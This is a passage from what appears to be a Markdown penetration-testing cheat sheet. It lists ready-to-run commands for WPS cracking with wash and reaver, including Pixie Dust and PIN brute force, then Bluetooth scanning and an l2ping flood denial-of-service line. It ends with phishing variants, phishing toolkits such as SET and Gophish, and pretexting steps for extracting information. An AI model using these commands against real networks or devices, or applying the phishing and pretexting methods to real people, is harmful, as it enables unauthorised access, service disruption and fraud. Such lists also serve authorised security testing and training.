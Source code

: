 ### Wi-Fi Protected Setup (WPS) Attacks
```bash
# Scan for WPS-enabled APs
wash -i wlan0mon

# Pixie Dust attack
reaver -i wlan0mon -b AP_MAC -c channel -K

# Brute force PIN
reaver -i wlan0mon -b AP_MAC -c channel -vv
```

### Bluetooth Hacking
```bash
# Scan for devices
hcitool scan
bluetoothctl scan on

# Device info
hcitool info MAC_ADDRESS

# L2ping DoS
l2ping -i hci0 -s 600 -f MAC_ADDRESS
```

---

## Social Engineering

### Phishing Techniques

#### Email Phishing
- **Spear Phishing**: Targeted at specific individuals
- **Whaling**: Targeting high-profile executives
- **Clone Phishing**: Legitimate email replicated with malicious link

#### Phishing Tools
```bash
# SET (Social Engineering Toolkit)
setoolkit

# Gophish
gophish

# King Phisher
king-phisher
```

### Pretexting
- Creating fabricated scenario
- Building trust with target
- Extracting sensitive information
